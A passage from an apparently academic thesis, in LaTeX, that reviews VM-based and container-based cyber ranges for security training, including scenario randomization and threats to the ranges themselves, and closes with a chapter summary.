    \label{fig:pandora_architecture}
\end{figure}

Fig. \ref{fig:pandora_architecture} (p. \pageref{fig:pandora_architecture}) portrays Pandora's architecture, which runs under a VM with an operating system that introduces some incompatibility with the "Generic Operating System" to, as mentioned before, introduce an intentional inconsistency with regards to damage propagation outside the testing environment. The "Vulnerable Binary Manager" is used to execute vulnerable binaries within the secure environment, use exploits against the vulnerable binary and record the effect of such exploitations. A "Vulnerable Binary" is a file containing a set of defined vulnerabilities that automated tools will exploit. Notice that this binary should only be able to be executed within the "Secure OS". The "Vulnerability Manager" is an API that handles communication with the cyber range by sending exploits and receiving responses from the "Vulnerable Binary Manager". The "Automated Cybersecurity Tool(s)" generates exploits against vulnerable binaries and is not present in the secure operating system to assure simplification. Examples include fuzzing tools, such as Fuzzer\footnote{\url{https://github.com/angr/phuzzer}} and American Fuzzy Lop\footnote{\url{https://lcamtuf.coredump.cx/afl/}} to generate crash strings for simple binary files vulnerable to buffer overflows. Later on, rex\footnote{\url{https://github.com/angr/rex}}, an automated exploit engine, exploits the target binary using the above-mentioned crash string obtained from the fuzzing tool, generating a Proof of Vulnerability (POV) that is later on sent to the "Vulnerability Manager" and received by the "Vulnerability Binary Manager" inside the cyber range VM.

More theoretically speaking, Debatty \textit{et al.} \cite{building_cr_ref} stresses the need for cyber ranges to improve Cyber Defense Situation Awareness (CDSA). 

\begin{figure}[H]
    
\includegraphics[width=10cm]{figures/building_cr_endsley_model.png}
    \caption{Endsley's Decision Making Model \cite{endsley_ref}.}
    \label{fig:endsley_decision_making_model}
\end{figure}

The speed at which events unfold during a cyber incident requires an efficient decision-making process. Fig. \ref{fig:endsley_decision_making_model} (p. \pageref{fig:endsley_decision_making_model}) shows Boyd and Endsley \cite{endsley_ref} decision-making model that plays an important role in CDSA. Three levels of \textit{"Situation Awareness"} (SA) are discussed \cite{building_cr_ref}:

\begin{itemize}
    \item \textit{Level 1 SA (\textit{"perception"})}: ``\textit{perceive the real-time status, attributes, and dynamics of relevant elements in cyberspace}''. This entails activities such as monitoring the network and detecting anomalies. This concept is closely tight to the idea of \textit{"Security Operations Centre"} (SOC) and \textit{"Security Incident and Event Management"} (SIEM).
    \item \textit{Level 2 SA (\textit{"comprehension"})}: ``\textit{aggregation and assessment of level 1 information in order to understand how the current situation impacts our goals and objectives}''. This refers to the construction of attack graphs outlining the attack details.
    \item \textit{Level 3 SA (\textit{"projection"})}: ``\textit{the ability to extrapolate the actions of the elements in cyberspace into the future, based on L2 comprehension of the current situation}''.
\end{itemize}

Endsley's model situation awareness is achieved using \textit{"mental models"} which, according to Rouse and Morris \cite{rouse_morris_ref}, are ``\textit{mechanisms whereby humans can generate descriptions of system purpose and form explanations of system functioning and observed system states, and predictions of future states}''. It is precisely this that cyber range training aims to improve.

Following this stream of thought, Debatty \textit{et al.} \cite{building_cr_ref} proposed a VM-based cyber range where YAML/JSON description files are used to define the final state of the deployed scenario. Inside this description file, it is possible to include Ansible playbooks that provide additional software to the scenario. It uses Vagrant images as VMs and allows their customization: the number of vCPUs, amount of memory, number of network interfaces, operating system, and installed software. This enables the creation of VMs that are Intrusion Detection Systems, traffic generators, systems that encompass a set of analysis tools made available for the trainees, or simply a vulnerable server that should be hacked during the challenge. The main components of the cyber range are the hypervisor, a Remote Desktop Gateway, to allow remote desktop access to VMs, either using Remote Desktop Protocol (RDP), Virtual Network Computing (VNC), and an orchestrator node that provisions and instantiates the VMs. Currently, this project uses Apache Guacamole\footnote{\url{https://guacamole.apache.org/}}, which supports both RDP and VNC, to allow users to connect to the cyber range via a browser.

Yamin \textit{et al.} \cite{serious_games_as_a_tool_to_model_attack_and_defense_scenarios_ref} proposes a set of cyber range scenarios based in a game, consisting of attackers wanting to compromise a network and defenders preventing such from happening. A Domain-Specific Language (DSL) defines each scenario's main properties, allowing for specific customization, similar to previous projects. The abstract syntax of DSL targets scenario properties, the internal configuration of VMs, routing configurations across the virtualized environment, services, vulnerabilities within VMs, agent tasks related to traffic generation, autonomous attack launching, and others. A concrete syntax in YAML, derived from DSL, is used to create the final instances of the scenario. After validation and compilation of this syntax, a set of HEAT templates are generated and used by OpenStack to deploy a Virtual Machine network in a private cloud. For the configuration and provisioning of VMs, Ansible is used.

% Leaf

Ficco \textit{et al.} \cite{leaf_ref} mentions a complex cyber range especially tailored for Internet Of Things (IoT) scenarios and Edge applications. Apart from the standard features of these types of cyber ranges, it includes a gorgeous user interface and a complex monitoring system where events are collected via firewalls, IDS, and due to network traffic analysis. Events also refer to machine monitoring operations, for instance, if a machine is not responding or a particular port is open or closed. These sorts of events should be communicated to those outside the cyber range, meaning an API must be made available. This project was developed using technologies like pfSense, an open-source software that emulates firewalls, routers, DHCP servers, DNS servers, and VPN endpoints. Three virtualization technologies were tested: VMware ESXi, OpenStack, and Oracle VirtualBox. VMware ESXi and OpenStack are used for remote deployments. VirtualBox is for smaller local deployments, meaning cyber range VMs are distributed as OVA files. Details on network configuration with pfSense, firewall rules, management of Certification Authorities (CA) and SSL certificates for encrypted traffic between servers and users that go through pfSense, creation of groups within the network with several layers of privileges, references to OpenVPN, which comes installed by default installed in pfSense, Network Address Translation (NAT) and DNS configurations are highly detailed in this article.

Bernardinetti \textit{et al.} \cite{nautilus_ref} cites Nautilus, a VM-based cyber range that leverages cloud technologies to semi-automate the deployment of vulnerable virtualized networks. It includes a platform-agnostic configuration language for the scenarios aiming for local and remote deployments. Additionally, it uses Vagrant and Ansible for software provisioning. Essentially, Nautilus works on top of any hypervisor, such as VirtualBox, VMWare, KVM, and Amazon AWS, among others. Configuration files for the VMs are written in a \textit{Vagrantfile}, including hardware specifications, the base image to use, and network configurations. A set of Ansible playbooks describe how to provision the VM. All this is done using Nautilus SDL, meaning these high-level descriptions of the scenes are parsed, and the outcome serves as input for Ansible and Vagrant.

Vykopal \textit{et al.} \cite{kypo_crp_ref} mentions the KYPO Cyber Range Platform that combines IaC using tools such as Ansible, Terraform and Kubernetes, microservices, OpenStack's cloud provider technology. The environment's declaration is based on human-readable data-serialization languages such as JSON, YAML, or the open-source software Packer\footnote{\url{https://www.packer.io/}}. Furthermore, KYPO provides a user management platform, which facilitates the life of instructors, as this framework has close bounds to university education. For each scenario, users connect to a set of Virtual Machines and communicate with the rest of the network. The entire environment is based on sandboxed environments and is suitable both for cloud deployments, as mentioned, and local environments. This framework also supports the addition of containers to the scenario's environment.

\begin{figure}[H]
    
\includegraphics[width=7cm]{figures/KYPO-portal-diagram.png}
    \caption{KYPO's Conceptual Architecture \cite{kypo_arch_ref}.}
    \label{fig:kypo_concept_arch}
\end{figure}

Fig. \ref{fig:kypo_concept_arch} presents the project's architecture. The ``Repositories'' module stores sandbox definitions used in the target environment that are loaded by the so-called KYPO portal. This includes network topologies and provisioning definitions, specifying the internal structure of sandboxes as well as the configuration of the hosts. The ``Users'' module refers to the different roles and scopes available in KYPO. They can create and manage training or other users and are responsible for designing sandboxes. Moreover, users can access machines in the cloud using Apache Guacamole, Remote Desktop, or SSH. The ``KYPO Portal'' is a simple GUI so users can interact with the cyber range's microservices, essentially working as a mediator. The ``Cloud'' module is based on the OpenStack cloud platform and controls computing, storage, and network resource pools. The last presented module is the user computer and works as an alternative to cloud sandboxes. The deployment is done using VirtualBox and Vagrant in such cases. This framework allows instructors to assess the progress obtained by trainees during a certain scenario. It also enables the creation of a set of questions and tasks related to each scenario. It allows visualization of scenario cheating attempts, using variables such as the minimum solve time and time proximity in which two submissions from distinct players on the same level are flagged.

Lastly, Russo \textit{et al.} \cite{crack_ref} suggests CRACK, a cyber range that uses an SDL for declaring scenarios and supports automatic verification of the training objects of the scenario. The SDL can be translated into Datalogs as part of declarative programming logic, which are later used for executing test cases on the scenario. It follows an approach interrelated to IaC for cloud deployment of Virtual Machines. 

\subsection{Container-based Cyber Ranges}

Container-based cyber ranges are frequently linked to reduced resource consumption compared to VM-based scenarios, mainly because the container's resources are shared with the host, causing a lower overhead. This same overhead is even lower compared to scenarios full of virtual instances since the CPU and memory usage compared to VM-based scenarios is much lower. According to Thompson \textit{et al.} \cite{labtainers_ref}, Docker containers have several advantages:

\begin{itemize}
    \item \textit{File system isolation}: each container runs in a separate root file system.
    \item \textit{Resource isolation}: system resources such as CPU, network bandwidth, and memory are allocated according to the process container using \textit{cgroups}, for instance. This is important considering several labs running within the same host machine, where unfair resource allocations should be prevented.
    \item \textit{Network isolation}: each container runs within its network namespace consisting of a virtual interface and specific IP address.
    \item \textit{Copy-on-write}: containers' file systems are created using copy-on-write (COW), an optimization strategy when multiple callers ask for resources. Initially, they are given pointers to the same resource. However, if a modification is needed, a private copy of the resource is created to prevent changes from being visible to every caller. This ensures fast deployments, cheap in terms of memory and disk.
    \item \textit{Change management}: changes to a container's file system result in a new image that other containers can reuse.
    \item \textit{Interactive shell}: there is the possibility of allocating a pseudo-tty and attaching the standard input of any container, essentially translated to the fact that a prompt can be obtained to access the internals of the container.
\end{itemize}

This section intends to elaborate on container-based cyber ranges and their specific details.

% DSP

Perrone \textit{et al.} \cite{dsp_ref} brings forward the \textit{Docker Security Playground}\footnote{\url{https://github.com/DockerSecurityPlayground/DSP}}, a microservices-based approach to build complex network infrastructures tailored to study network security. These microservices are based on Docker. Likewise, it offers an API enabling further development on the lab scenarios. This project uses Docker-compose to manage scenarios' start and stop procedures. It uses a \textit{Docker Image Wrapper} which defines a standard notation for Docker labels to provide custom configurations for the base Docker image of each scenario. The Docker images used within the project are placed at DockerRegistry Hub\footnote{\url{https://hub.docker.com/u/dockersecplayground}}.

% Capturing flags in a dynamically deployed microservices-based heterogeneous environment

Related to the \textit{Docker Security Playground}, Caturano \textit{et al.} \cite{capturing_flags_ref} designed another container-based cyber range built upon the \textit{Docker Security Playground}. This project tackles the fact that several vulnerabilities related to the kernel cannot be explored in Docker-based environments because containers share the Linux kernel with the Docker host. To overcome this problem, Capturano \textit{et al.} explores scenarios based on containers and Virtual Machines, providing a hybrid environment where cybersecurity exercises are deployed. For this, it makes use of \textit{"macvlan"} interface drivers to create a bridge between Docker containers and VMs. Similarly, Acheampong \textit{et al.} \cite{security_scenarios_automation_ref} mixes the concept of cloud deployments based on Virtual Machines with Docker containers hosting packaged applications.

Closely related to the education side, Thompson \textit{et al.} \cite{labtainers_ref} refers to another training framework, Labtainers\footnote{\url{https://github.com/mfthomps/Labtainers}}, which relies on Docker containers featured with an automatic assessment of students, as lab data is collected and automatically sent to an instructor upon completion via email or an LMS, creating the possibility of analyzing the experiential learning efficacy of the exercise. Specific properties of the laboratory activities are randomized so that each student works on a different scenario in terms of configurations. This randomization is achieved by defining symbols within the source code and data files part of the lab, which are replaced with student-specific values upon lab startup, for instance, the buffer size related to a buffer overflow vulnerability. This concept is further explored in the next section.

\subsection{Randomization} \label{sec:randomization_cr}

Developing a scenario for a cyber range is mainly a manual process. An example that corroborates this statement is SEED Labs \cite{seed_labs_ref}, where many of Labtainers' laboratories are based \cite{labtainers_ref}, where several scenarios based on software security, web security, system security, mobile security, network security, cryptography, and blockchain are made available to trainees using both Virtual Machines and containers. More than 80 universities use SEED Labs, which expresses close bounds to education.

Consequently, there is a need to address some randomization of the developed scenarios as they essentially turn out to be static once created. As so, this section elaborates more on the cyber ranges, both VM-based and container-based, that take into account randomization.

% SecGen

We start with Schreuders \textit{et al.} \cite{secgen_ref} that proposes a VM-based cyber range, SecGen\footnote{\url{https://github.com/cliffe/SecGen}}, developed in Ruby that introduces randomization. It is suited for both educational lab usage and CTF challenges. One of the main concerns is addressing the sluggish pace associated with the manual configuration of hacking scenarios, which is not practical at scale. This cyber range focuses on a CTF-style type of challenge, where solving the proposed challenge results in discovering a secret flag. The introduced randomization is characterized as follows:

\begin{itemize}
    \item \textit{Selection}: randomized selection of the operating system, network configurations, services, system configurations, and vulnerabilities to be used.
    \item \textit{Parameterisation}: that entails system elements should be configurable, for instance, the strength of a user account password.
    \item \textit{Nesting}: data generation should be combined/nested randomly.
\end{itemize}

The description of the system greatly depends on the XML specification language, which states the details related to the configuration of the network, available vulnerabilities, services, users, and content and applies logic for randomizing the scenario. It uses Puppet and Vagrant to provision the VMs. A critical takeaway idea of this project is its highly modular structure and the use of vulnerabilities and associated exploits provided by the Metasploit Framework. The SecGen running process is composed of two stages:

\begin{itemize}
    \item \textit{First Stage}: is where all the scenario Ruby modules are read, randomization steps are applied, and the Puppet modules are deployed. At last, a Vagrant file is created, which describes the entire scene, according to the steps mentioned.
    \item \textit{Second Stage}: leverages Vagrant to generate and provision the VMs. 
\end{itemize}

Currently, SecGen counts over 100 modules: data generation modules, encoder modules, providing various encryption and encoding methods, service modules, providing a wide range of secure services, utility modules, allowing various system configurations, and vulnerability modules, concerning vulnerable services. 

% CyExec

Consequently, Nakata \textit{et al.} \cite{cyexec_ref} proposes a Directed Acyclic Graph (DAG) based cyber range, CyExec, with randomization techniques in mind, using Docker containers. This article claims CyExec outperforms the SecGen VM-based scenario \cite{secgen_ref} generator, consuming 1/3 memory, having 1/4 CPU load, and 1/10 of storage usage, primarily since it uses containers instead of VMs.

The concept of randomization here takes the form of a graph such as the one presented in Fig. \ref{fig:cyexec_randomization} (p. \pageref{fig:cyexec_randomization}), being each milestone a vertex and each scenario an edge, meaning an attack consists of different types of vulnerabilities that achieve the same outcome. As a result, the trainee experiences several distinct situations. Since the attack is directed towards the final target and there is no going back to a previous milestone or looping back to the same vertex, this graph is considered a DAG.

\begin{figure}[H]
    
\includegraphics[width=10cm]{figures/cyexec_randomization.png}
    \caption{CyExec randomization \cite{cyexec_ref}.}
    \label{fig:cyexec_randomization}
\end{figure}

Fig. \ref{fig:cyexec_structure} (p. \pageref{fig:cyexec_structure}) shows the structure followed by CyExec. With several Docker-compose files, randomization is assured because it allows switching between which \textit{Dockerfiles} are used when setting up a scenario. A \textit{Dockerfile} works as just another "edge"  to reach a "vertex", leading us to the fact that different vulnerabilities are introduced into the system according to the selected \textit{Dockerfile}.

\begin{figure}[H]
    
\includegraphics[width=10cm]{figures/cyexec_structure.png}
    \caption{CyExec structure \cite{cyexec_ref}.}
    \label{fig:cyexec_structure}
\end{figure}

For example, consider a scenario where Metasploitable2\footnote{\url{https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/}}, a purposely vulnerable system, is available in the CyExec testbed. Several vulnerable applications can be found in this machine, such as vsftpd, PHP, Samba, and PostgreSQL, among others. Scenarios can be swapped and selected randomly if different vulnerabilities or attack techniques are considered.

% Cloud-based 

\subsection{Threats and Vulnerabilities} \label{sec:threats_vulnerabilities_cr}

When dealing with cyber ranges, it is crucial to consider potential threats and vulnerabilities these systems can introduce, especially when dealing with VM escaping situations \cite{pandora_ref}. As such, Noponen \textit{et al.} \cite{cybersecurity_threat_and_mitigations_ref} deems cloud security issues as relevant because cyber ranges are often located in a cloud. This situation is even more worrisome if we consider private clouds. Besides, it points out that DoS attacks can severely disturb these cyber exercises.

% Threats and Vulnerabilities 

Taib \textit{et al.} \cite{threats_and_vulnerabilities_ref} calls our attention to threats and vulnerabilities existing in dual-stack cyber ranges, where devices can run both IPv4 and IPv6 in parallel. This article performs tests in a VM-based scenario that also makes use of Graphic Network Simulator 3 (GNS3)\footnote{\url{https://gns3.com/}}, a network software emulator. It demonstrates how to enforce constraints on the system via Access Control Lists (ACLs) and host-based firewall rules.

Noponen \textit{et al.} \cite{cybersecurity_threat_and_mitigations_ref} organizes possible threats against cyber ranges according to the following types:

\begin{itemize}
    \item \textit{Physical Threats} that concern local deployments, as devices may be compromised or damaged.
    \item \textit{Communication Threats}, mainly relevant to remotely connected users where an attacker can intercept the traffic associated with the cyber range. Encryption is deemed essential in these types of situations.
    \item \textit{Virtual Machines and Containers}, although likely uncommon, it is essential to consider the possibility of an attacker leaving the sandboxed environment and giving it access to the host machine. MITRE \cite{mitre_containers_issues_ref} introduces an ATT\&CK Matrix for container systems, pointing out privilege escalation issues related to incorrect container privileges and misconfigured bind mounts, among others. Such mistakes may end up allowing malicious access to the underlying system hosting the cyber range.
    \item \textit{Cloud Threats}, which are also referenced by MITRE \cite{mitre_cloud_issues_ref}, similarly to what happened with containers. MITRE also references mitigations against adversary techniques, most related to software updates, deployment of Intrusion Detection and Prevention Systems, policy enforcement, and network segmentation.
\end{itemize}

Regarding cloud security issues, Torkura \textit{et al.} \cite{continuous_auditing_and_threat_detection_ref} proposes a system tested with AWS and Google Cloud that continuously monitors the cloud infrastructure to detect malicious activities, misconfigurations, and unauthorized changes. It includes proactive risk analysis where Common Vulnerability Scoring System (CVSS)\footnote{\url{https://nvd.nist.gov/vuln-metrics/cvss}} is used to score vulnerabilities in the cloud infrastructure, according to their impact and exploitability metrics. Although not used within the context of cyber ranges, this is an example of a project that can be applied to the underlying infrastructure of cyber ranges as a way to perceive if malicious actions are being directed towards the exercise itself.

\section{Summary} \label{sec:summary}

This chapter performed a literature review focusing on the main areas this work aims to build upon: cyber ranges and Infrastructure as Code. 

Starting from the methodology used during the research process, exploring general definitions and concepts related to cyber ranges, and detailing the key features of the gathered references. Hardware-based, VM-based, and container-based cyber ranges were deeply analyzed in order to understand in great detail what the current \textit{state-of-the-art} lacks and perceive, for instance, the necessities of an enterprise-level network, the tools used in attack-based cyber range scenarios, network services exposed, technologies used, among others. Randomization, threats and vulnerabilities exposed by such types of cyber range systems were also addressed, which attackers may leverage using privilege escalation techniques, compromising the existing physical infrastructure supporting the system. 

As mentioned throughout this chapter, current cyber range problems are related to high-cost infrastructure relying too much on Virtual Machines, and details of these kinds of open-source scenarios rarely reference up-to-date vulnerabilities and attacks. Container-based solutions are starting to appear, but they heavily rely on custom cyber range description files, using the YAML, XML, or, sometimes, even the JSON format. There are cases where IaC tools are not being used, hampering scalability concerns. In such cases, a custom tool was typically designed to parse and take action on the aforementioned customized scenario description files. Randomization is clearly lacking in some cyber range scenarios, which is understandable given that developing these testing environments is a slow manual process.

Nonetheless, key takeaway ideas in the performed search are mostly related to the services in the cyber range scenarios, which simulate enterprise-level networks and the technologies used to build them. Other topics that stand out during our search concern traffic generation using automated scripts that emulate benevolent or malicious behavior, and aspects related to monitoring trainees' actions across the testing environment are also essential factors that can make the scenario more realistic. Lastly, the set of vulnerabilities and attacks instigated across all references, especially in open-source projects, were very useful for our project's sake to better understand typical scenario examples.

\begin{table}[H]
  \caption{Comparison of Cyber Ranges.}
\scalebox{0.5}{
\begin{tabular}{ | c | c | c | c | c | c | c | c | c |}
\hline
